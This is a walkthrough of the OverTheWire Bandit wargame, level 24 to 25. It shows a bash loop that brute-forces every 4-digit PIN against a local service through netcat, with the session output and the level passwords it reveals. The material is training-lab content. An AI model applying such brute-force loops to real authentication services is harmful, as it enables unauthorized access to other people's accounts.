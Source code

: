 Lets not make this harder then it should be and create a `for` loop. The `for` loop will iterate over each possible 4-digit pincode and store there current pincode in the variable `i`. Then we `echo` the password of bandit24 plus the current iteration of the pincode.

```
#/bin/bash
for i in {0000..9999}
do
        echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ" $i
done
```

Now we start the script and pipe `|` the output to `nc` which will connect to `localhost:30002` . Running the script like this will return the `Wrong! Please enter the correct pincode. Try again.` string 9999 times, so lets hide that with `grep`.

```
bandit24@bandit:/tmp/brute_port$ ./brute_port.sh | nc 127.0.0.1 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
```

Using the `-v` flag on `grep` we can do a `invert-match` . This means `grep` will only match to values that are not equal to the wrong pincode message. So lets rerun our script.

```
bandit24@bandit:/tmp/brute_port$ ./brute_port.sh | nc 127.0.0.1 30002 | grep -v 'Wrong! Please enter the correct pincode. Try again.'
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
bandit24@bandit/tmp/brute_port$ logout
Connection to bandit.labs.overthewire.org closed.
```
